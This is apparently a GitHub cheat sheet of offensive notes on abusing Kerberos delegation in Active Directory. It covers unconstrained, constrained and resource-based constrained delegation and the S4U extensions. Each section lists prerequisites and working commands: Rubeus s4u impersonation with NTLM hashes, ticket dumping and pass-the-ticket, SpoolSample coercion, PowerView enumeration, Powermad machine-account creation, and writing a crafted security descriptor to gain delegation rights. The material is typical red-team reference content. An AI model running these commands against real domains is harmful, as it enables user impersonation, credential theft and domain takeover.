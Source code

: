 # Unconstrained Delegation
An account with a set SPN (e.g. Service A) can impersonate an user using the service set via the SPN at any other service in Active Directory. For this purpose, the service can use the user's ticket granting ticket, which is send together with the TGS for Service A.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
TRUSTED_FOR_DELEGATION UAC flag in the attributes of the attacker account associated SPN must be true (only domain admins have typically the SeEnableDelegationPrivilege right to change this flag)

## Result
Domain Controller responds with target user TGT

## Commands
- using S4U2Self
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<attackerNtlmHash> /impersonateuser:<targetUser> /msdsspn:"cifs/<fqdnTargetComputerB>" /ptt'

- using spoolservice (rubeus monitor needs elevated context)
Invoke-Rubeus -Command 'monitor /interval:1'
SpoolSample.exe <targetComputer> <attackerComputer>

- using cached ticket
Invoke-Rubeus -Command 'dump'
Invoke-Rubeus -Computer 'ptt /ticket:<base64Ticket>'


# Constrained Delegation
An account with a set SPN (e.g. Computer A with Service A) can impersonate an user using Service A at other services in Active Directory. Impersonation can be applied to services (e.g. Service B) defined in the msDS-AllowedToDelegateTo attribute of Computer A. The impersonation is performed by using the S4U2Proxy Extension, after the user authenticates to Service A. It is also possible to impersonate the user for an alternative service, as long as these service are provided by Computer B. This is because the service part of the SPN (<spn>/<fqdn>) in a service ticket is not signed by Kerberos and thus can later be manipulated.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToDelegateTo attribute of Computer A must hold Service B 

## Result
Domain Controller responds with TGS of target user for Service B - this TGS can be used for alternative services provided on Computer B

## Commands
- check allowed SPNs
Get-DomainUser <attackerComputerA> -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto

- if SPN already contains cifs or desired service as SPN
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<targetUser>')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

- otherwise ask for TGS and insert alternative service
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<ntlmHashComputerA> /impersonateuser:<targetUser> /msdsspn:"<service>/<fqdnTargetComputerB>" /altservice:cifs /ptt'


# Resource Based Constrained Delegation
An account (e.g. Computer A) with set SPN (e.g. Service A) can impersonate an user using Service A at other services (e.g. Service B of Computer B) in Active Directory. Impersonation can only take place if the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Service B lists Computer A.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Computer B must hold Service A 
One Domaincontroller with OS at least Windows Server 2012

## Result
Domain Controller responds with TGS of target user for Service A - this TGS can be used for alternative services

## Commands
- check machine account quota (powerview)
Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1

- check DC OS
Get-NetDomainController | Select name,osversion | Format-List

- check present SPN in msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-NetComputer <targetComputer> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

- add new computer to domain if necessary (powermad)
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newComputerPassword>' -AsPlainText -Force)

- get SID of new computer
Get-NetComputer <newComputer> -Properties objectsid | Select -Expand objectsid

- create a raw security descriptor for the new computer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<newComputerSid>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

- add new value to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-NetComputer <targetComputer> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

- check added msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-NetComputer <targetComputer> -Properties 'msds-allowedtoactonbehalfofotheridentity'

- ask for TGS
Invoke-Rubeus -Command 's4u /user:<newComputer> /rc4:<newComputerNtlmHash> /impersonateuser:<targetUser> /msdsspn:cifs/<fqdnTargetComputerB> /ptt'

# S4U2Proxy
The service-for-User-to-Proxy extension works for resource-based constrained delegation even if the provided TGS of the user is not forwardable (design error of microsoft).

# S4U2Self
The service-for-User-to-Self extension allows a service (e.g., Service A on Computer A) to request a service ticket on behalf of a user (e.g., user X) for another service (e.g., Service B) from the domain controller without user X having to interact with Service A beforehand. Computer A therefore does not need a service ticket from user X for Service A to request a service ticket for Service B on behalf of user X. In order to work, the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag of Service A need to be set to true. This permission is typically granted by a domain admin. If the flag is not true the resulting TGS of user X will not be forwardable.

